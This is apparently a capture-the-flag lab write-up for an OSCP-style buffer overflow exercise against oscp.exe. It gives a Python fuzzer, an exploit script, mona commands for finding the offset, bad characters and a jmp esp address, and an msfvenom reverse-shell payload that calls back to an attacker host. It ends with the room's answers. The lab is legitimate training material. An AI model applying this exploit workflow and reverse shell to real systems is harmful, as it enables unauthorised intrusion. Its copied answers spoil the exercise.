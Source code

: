 # OVERFLOW1
Run Immunity Debugger as Administrator. Then navigate to `File` -> `Open` -> `oscp.exe`. To run the binary select `Debug -> Run`.

We can connect to the service via netcat:
```
nc 10.10.28.219 1337
```

## Mona Configuration
Set a working forlder **(important to do each time you open Immunity Debugger)**:
```
!mona config -set workingfolder C:\mona\%p
```

## Fuzzing
Create this script on the attacking machine.
```
# cat fuzzer.py
```
```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.28.219"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Crash Replication & Controlling EIP
```
# cat exploit.py
```
```python
import socket

ip = "10.10.28.219"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Use `cyclic` to create a cyclic pattern 400 bytes longer than the length of bytes that crashed the server:
```
user@arch:~$ cyclic 600
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad
```

The `oscp.exe` should crash so use this Immunity Debugger command to find the cyclic pattern:
```
!mona findmsp -distance 600
```

We will see a line that contains:
```
EIP contains normal pattern : ... (offset XXXX)
```
The `XXXX` value is the offset of bytes needed to reach the EIP register. After this we can add four bytes to the return address. Modify `exploit.py` to use this offset, use an empty payload for now, and set the `retn` variable to `BBBB`.

After running the exploit again, we should see EIP overwritten with 4 B's.

## Finding Bad Characters
Generate bytarray in mona (exluding `\x00`)
```
!mona bytearray -b "\x00"
```

Generate string of bad chars identical to bytearray
```python
for x in range(1, 256):
	print("\\x" + "{:02x}".format(x), end='')
print()
```

Set `payload` in `exploit.py` to the string of bad chars and run the exploit again

Find the address that the ESP register is pointing to and substitute it into the following command:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A window will pop up showing the comparison of the `bytearray.bin` to the bytes in memory. Not all of these will be bad characters since some bad characters corrupt the next byte or entire string.

Update the `exploit.py` script to remove bad chars and generate a new bytearray in mona specifying the new bad chars. Repeat this process until the result of the comparison is "Unmodified".

## Finding a Jump Point
Run the following command and specify all badchars in the `-cpb` option:
```
!mona jmp -r esp -cpb "\x00"
```

This will find all the `jmp esp` instructions where the address does not contain any badchars (ESP register will point to instructions after the `ret` instruction).

Update the `exploit.py` script and set the `retn` variable to one of these addresses (using little endian).

## Generate Payload
Run the following `msfvenom` command and specify the badchars with `-b`
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.23.1 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

Copy these bytes into the `payload` variable in `exploit.py`

## Prepend NOPs
Since the payload likely used an encoder, we need space in memory for the payload to unpack. We can do this by adding 16 or more "no operation" (`\x90`) bytes into the `padding` variable in `exploit.py`:
```python
paddng = "\x90" * 16
```

## Exploit
Start the netcat listener on our attacking box and run `exploit.py` against the vulnserver. If the prefix, offset, return address, padding, and payload are set correctly we should now have a reverse shell.

## Questions
What is the EIP offset for OVERFLOW1?
```
1978
```
In byte order (e.g. \\x00\\x01\\x02) and including the null byte \\x00, what were the badchars for OVERFLOW1?
```
\x00\x07\x2e\xa0
```